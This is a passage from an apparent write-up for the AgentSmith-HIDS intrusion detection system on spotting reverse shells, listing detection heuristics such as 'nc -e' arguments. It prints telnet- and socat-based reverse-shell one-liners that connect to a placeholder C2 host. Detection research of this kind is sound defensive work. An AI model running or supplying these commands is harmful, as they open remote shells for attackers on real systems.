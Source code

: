 * argv is `nc -e`
* bash's parent process is `nc`
* The bash process or its parent process has an abnormal network connection
* Track the stdin / out pipe and try to detect if the process of the final pipe connection generated an abnormal network connection

That seems a bit exhausting, while if you are using AgentSmith-HIDS, there are other detection methods, we will talk about later.



#### 5.Advanced Version(1)

`telnet c2_ip c2_port 0 <SOME_DEVNAME | / bin / bash 1> SOME_DEVNAME`

![7](7.png)

Let's look at the stdin/stdout of the bash process:

![8](8.png)



#### 5.Advanced version(2)

`socat exec: 'bash -li', pty, stderr, setid, sigint, sane tcp: c2_ip: c2_port`

![9](9.png)
